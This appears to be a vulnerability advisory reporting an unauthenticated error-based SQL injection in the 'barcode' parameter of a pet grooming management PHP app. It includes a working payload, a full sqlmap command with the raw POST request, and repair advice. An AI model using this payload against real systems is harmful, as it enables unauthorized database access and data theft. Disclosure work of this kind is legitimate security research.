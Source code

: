 # Pet grooming management fetch_product_details.php  sql injection

# NAME OF AFFECTED PRODUCT(S)

- Pet grooming management

## Vendor Homepage

- [Pet grooming management software download | SourceCodester](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- lalalalalalala555
## VERSION(S)

- V1.0

## Software Link

- [Downloading Pet grooming management software download Code | SourceCodester](https://www.sourcecodester.com/download-code?nid=18340&title=Pet+grooming+management+software+download)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'fetch_product_details.php' file of the 'Pet grooming management' project. The reason for this issue is that attackers inject malicious code from the parameter "barcode" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Pet grooming management", discovered a critical SQL injection vulnerability in the "fetch_product_details.php" file. This vulnerability stems from insufficient user input validation of the 'barcode' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- error-based

## Vulnerability location:

- 'barcode' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: barcode=1'||(SELECT 0x61635654 WHERE 5379=5379 AND (SELECT 8570 FROM(SELECT COUNT(*),CONCAT(0x71766b6271,(SELECT (ELT(8570=8570,1))),0x716a6a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'
    Vector: AND (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

![image-20250915140729275](assets/image-20250915140729275.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
POST /admin/fetch_product_details.php HTTP/1.1
Host: 192.168.31.222:8883
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: UserName=test1; PassWord=16d7a4fca7442dda3ad93c9a726597e4; Bus_Booking_System=bq1kveujc3osm8re7oiikt4hhj; columns-customers_view={%22customers-fullname%22:true%2C%22customers-phone%22:true%2C%22customers-id_number%22:true}; PHPSESSID=p1oiu687ec8r1n6qnj58qo4850
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

barcode=1*
```

# Attack results

![image-20250915140759779](assets/image-20250915140759779.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.